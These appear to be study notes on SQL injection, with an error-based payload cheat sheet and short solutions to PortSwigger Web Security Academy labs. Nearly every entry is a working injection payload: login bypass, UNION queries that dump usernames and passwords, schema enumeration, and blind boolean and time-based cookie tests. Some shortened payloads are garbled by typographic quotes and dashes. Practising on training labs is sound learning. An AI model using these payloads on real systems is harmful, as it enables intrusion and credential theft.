### Error-Based
* `CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    WHEN conditionN THEN resultN
    ELSE result
END;`
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* `CAST((SELECT example_column FROM example_table) AS int)`
* * Oracle 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
  * Microsoft 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
  * PostgreSQL 	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
  * MySQL 	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `


### Portswigger Lab Solution

************Lab 1:************

[`https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--`](https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--)

In short: `‘ or 1=1—`

************Lab 2:************

Username: administrator’—

password: anything

************Lab 3:************

[`https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--`](https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--)

In short: `‘union select null,null,null—`

************Lab 4:************

`' union select null,'snEL3e',null—`

************Lab 5:************

`' union select username, password from users—`

************Lab 6:************

`' union select null,username || '~' || password from users—`

************Lab 7:************

`' union select banner,null from v$version—`

************Lab 8:************

`' union select null,@@version#`

************Lab 9:************

`' union select table_name,null from information_schema.tables—`

`' union select column_name,null from information_schema.columns where table_name = 'users_nrdogg'—`

`' union select username_rkwgpt,password_vkiejw from users_nrdogg—`

**************Lab 10:**************

`' union select table_name,'null' from all_tables—`

`‘ union select column_name,null from all_tab_columns where table_name=’USERS_AFMITF’—`

`' union select USERNAME_PZTRWZ,PASSWORD_GTYDKD from USERS_AFMITF—`

**************Lab 11:**************

Test by injecting the following code to the cookie value:

`…xyz and 1=1` It should take you to the welcome page

`…xyz and 1=0` It won’t take you to the welcome page

If those codes show desired outputs, the website is vulnerable to SQL Injection

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a’`--

If it shows a welcome page, there is a table called users

`' and substring((select 'a' from users where username='administrator'),1,1)='a'—`

If it shows a welcome page, there is an user named administrator

https://www.youtube.com/watch?v=LBG_n9fr8sM

**************Lab 14:**************
<br>  <br>
`TrackingId=' || pg_sleep(10)-- -`

**Lab 15:**

Use “Response Received” column from intruder and use it to sort the characters that took the most time

https://portswigger.net/web-security/sql-injection/cheat-sheet
